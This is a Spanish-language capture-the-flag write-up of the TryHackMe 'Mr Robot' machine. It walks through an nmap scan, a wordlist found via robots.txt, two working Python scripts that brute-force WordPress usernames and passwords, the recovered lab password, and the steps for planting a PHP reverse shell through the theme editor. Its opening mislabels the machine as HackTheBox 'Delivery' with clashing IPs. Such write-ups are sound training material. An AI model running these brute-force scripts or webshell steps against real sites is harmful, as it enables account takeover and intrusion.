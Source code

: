 ```yaml
---
title: "Mr Robot - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/THM/MrRobot/data/mrrobot.png"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  -
---
```


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/data/MR-ROBOT.jpg">
  </p>

  La máquina **Delivery** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 4.6, **12347 USER OWNS** y **10865 SYSTEM OWNS** con la ip **10.10.10.222** y un sistema operativo **Linux**.

## Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22 y 443**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/PortServ.png">
  </p>

  Lo que **nmap** nos muestra es que hay un servicio **ssh** en el puerto **22** y un servicio **HTTP** en el puerto **443**.

  Cuando entre al servicio **HTTP** desde mi navegador pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/443.png">
  </p>

  Haciendo **fuzzing** podemos ver que cuenta con un recurso **robots.txt** y un **wp-login**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/fuzzing.png">
  </p>

  Primero iremos por el robots.txt, al entrar se pudieron ver el directorio **key-1-of-3.txt** y un recurso **fsocity.dic** el cual puedo descargar a mi maquina:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/robots.png">
  </p>

  Viendo el contenido de **fsocity.dic** puedo ver que es un diccionario con muchos strings variados, y con **858160** lineas:
  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/dic1.png">
  <div class="caption" ></div></center></td>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/dic2.png">
  <div class="caption"></div></center></td>
  </tr></table>
  </div>

  Ya sabiendo esto me dirijo al la ruta **wp-login** ahi veo que es un login de wordpress, en algunas ocasiones los logins de wordpress te permiten enumerar usuarios ya que si ponemos uno valido nos saldria un mensaje diciendo '**ERROR: The password you entered for the username Winsad is incorrect. Lost your password?**' por ejemplo.

  Para esto y ya que no conocemos los usuarios usaremos el dic para hacer un ataque de fuerza bruta, para este ataque hare un script personalizado en python el cual es el siguiete:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *


url = 'http://10.10.197.4/wp-login.php'

s = requests.Session()
print ''
p1 = log.progress("Fuzzeando usuario")
time.sleep(3)
p1.status("Iniciando Fuzzing")
time.sleep(3)

with open('fsocity.dic', 'r') as f:
	for i in f:

		data = {'log' : i,
			'pwd' : 'contra'
			}

		r = s.post(url, data)
		p1.status('Probando %s' % i.strip('\n'))

		if "Invalid username." not in r.text:
			p1.success('Usuario el usuario %s valido ' % i.strip('\n'))
			break
  ```

  Con el script que me acabo de desarollar pude descubrir que el usuario **Elliot** es un usuario valido:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/fuzzU.png">
  </p>

  Ahora que tenemos el usuario haremos una fuerza bruta a la password del usuario **Elliot**, para esto adapataremos un poco el script para que ahora itere sobre la password y no el usuario:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *

url = 'http://10.10.7.71/wp-login.php'
user = 'Elliot'
s = requests.Session()

print ''

p1 = log.progress('Fuzzeando password')
time.sleep(2)
p1.status('Iniciando Fuzzing')
time.sleep(3)

with open('smallwordlist', 'r') as f:

	for i in f:

		data  = {
			'log' : user,
			'pwd' : i
 		}

		r = s.post(url, data)
		p1.status('Probando password %s' % i.strip('\n'))

		if 'The password you entered for the username ' not in r.text:

			p1.success('La passwor de Elliot es %s' % i.strip('\n'))
			break

  ```
  Yo acote el diccionario ya que eran demasiadas lineas, la constraseña se encontraba en la linea 5627:ER28-0652, seria un gran punto si le metieramos hilos pero en esta ocasion no lo hare yo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/fuzzp.png">
  </p>

  Ya que encontramos el usuario y la passwod vamos al login de wordpress y ingresamos con las credenciales.

  Ya dentro es muy facil darnos una shell los pasos serian:
  - Entrar a Apparence
  - Editar el archivo **archive.php** y ingresar la shell en php en el archivo **archive.php**
  - Ponernos en escuchar por el puerto especificado en el **archive.php**
  - Entrar a la url **https://[IP Machine]/wp-content/themes/twentyfifteen/archive.php**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/paginaApparence.png">
  </p>

  Ya una vez que hicimos los pasos y entramos a la url especificada podemos ver que nos da la conexion en nuestra maquina:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/shell.png">
  </p>
